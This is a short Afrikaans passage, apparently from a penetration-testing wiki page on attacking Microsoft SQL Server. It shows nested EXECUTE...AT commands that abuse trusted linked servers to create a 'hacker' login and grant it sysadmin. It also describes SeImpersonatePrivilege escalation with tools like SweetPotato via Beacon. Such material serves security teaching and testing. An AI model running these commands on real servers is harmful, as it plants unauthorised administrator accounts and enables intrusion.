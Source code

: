### Handmatig - EXECUTE

Jy kan ook vertroude skakels misbruik met `EXECUTE`:
```bash
#Create user and give admin privileges
EXECUTE('EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = ''''P@ssword123.'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
EXECUTE('EXECUTE(''sp_addsrvrolemember ''''hacker'''' , ''''sysadmin'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
```
## Plaaslike Privilege Escalation

Die **MSSQL plaaslike gebruiker** het gewoonlik 'n spesiale tipe voorreg genaamd **`SeImpersonatePrivilege`**. Dit stel die rekening in staat om "n kliënt na verifikasie te verteenwoordig".

'n Strategie wat baie outeurs ontwikkel het, is om 'n SYSTEM-diens te dwing om te verifieer by 'n rogue of man-in-the-middle diens wat die aanvaller skep. Hierdie rogue diens kan dan die SYSTEM-diens verteenwoordig terwyl dit probeer om te verifieer.

[SweetPotato](https://github.com/CCob/SweetPotato) het 'n versameling van hierdie verskillende tegnieke wat uitgevoer kan word via Beacon se `execute-assembly` opdrag.


{{#include ../../banners/hacktricks-training.md}}
